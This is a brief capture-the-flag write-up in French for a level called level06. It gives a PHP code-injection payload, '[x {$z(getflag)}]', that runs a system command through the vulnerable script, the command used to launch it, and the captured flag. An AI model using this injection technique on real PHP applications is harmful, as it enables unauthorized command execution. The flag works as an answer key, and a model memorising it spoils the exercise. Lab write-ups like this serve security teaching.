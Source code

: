 1. Comprendre le fichier php
2. Creer un payload permettant d'executer la commande systeme `getflag`
   ```
   [x {$z(getflag)}]
   ```
3. Executer la commande `./level06 /tmp/exploit exec`

> Flag: wiok45aaoguiboiki2tuin6ub